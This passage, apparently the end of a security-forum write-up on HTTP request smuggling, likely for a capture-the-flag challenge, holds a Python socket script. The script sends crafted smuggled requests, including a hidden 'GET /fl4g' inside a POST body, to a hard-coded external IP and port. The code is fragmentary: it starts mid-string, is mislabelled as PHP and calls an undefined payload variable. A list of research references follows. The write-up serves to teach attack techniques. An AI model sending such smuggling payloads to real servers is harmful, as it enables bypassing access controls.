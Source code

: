 ```php
\r
'''
test1 = b'''POST / HTTP/1.1\r
Host: 127.0.0.1\r
Content-Length: 67\r
Sec-Websocket-Key1:x\r
\r
xxxxxxxxGET /fl4g HTTP/1.1\r
Host:127.0.0.1\r
Content-Length: 123\r
\r
GET / HTTP/1.1\r
Host: 127.0.0.1\r
\r
'''
test2=b'''POST / HTTP/1.1
Host: 59.110.159.206:7020
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

search=123'''

sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sSocket.connect(("59.110.159.206", 7020))

def send(payload):
    print(payload)
    sSocket.send(payload)
    sSocket.settimeout(2)
    response = sSocket.recv(2147483647)
    while len(response) > 0:
        print(response.decode())
        try:
            response = sSocket.recv(2147483647)
        except:
            break
    sSocket.close()

if __name__ == '__main__':
    send(final_payload)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-589df127a926279792d52e7548aec458019aaddc.png)

0x06 Reference
==============

<https://regilero.github.io/tag/Smuggling/>

<https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn>

<https://paper.seebug.org/1048>

<https://xz.aliyun.com/t/7501>